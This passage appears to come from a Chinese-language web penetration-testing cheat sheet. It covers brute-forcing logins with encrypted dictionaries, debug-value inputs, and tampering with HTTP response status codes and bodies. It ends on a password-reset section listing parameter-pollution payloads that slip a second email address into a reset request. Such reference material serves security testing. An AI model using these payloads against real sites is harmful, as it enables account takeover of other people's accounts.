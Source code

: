     1. 可以使用 burpsuite 的 payload processing 功能,把字典按照加密方式先加密再发包
    2. 用字典生成工具生成加密好的字典,pydictor 内置 encode 功能可以支持

**调式代码**
    ```
    00000
    null
    %00
    ```

**修改返回值**
- 思路
    ```
    HTTP/1.1 404 Not Found
    ...
    {"code": false}

    HTTP/1.1 404 Not Found
    ...
    {"code": true}
    ```

**修改状态码**
- 思路
    ```
    HTTP/1.1 404 Not Found
    ...
    {"code": false}

    HTTP/1.1 200 OK
    ...
    {"code": false}
    ```

---

### 密码重置

**相关文章**
- [换一种姿势挖掘任意用户密码重置漏洞](https://mp.weixin.qq.com/s/asnyHi_CfkRVBtB1Cd1i7Q)
- [密码重置的那些事](https://xz.aliyun.com/t/8136)

**参数污染**
- 思路
    ```
    POST /reset
    email=test@mail.com

    # 参数污染
    email=test@mail.com&email=f8x@mail.com
    email=test@mail.com,email=f8x@mail.com
    email=test@mail.com%20email=f8x@mail.com
    email=test@mail.com|email=f8x@mail.com
    email=test@mail.com%00email=f8x@mail.com
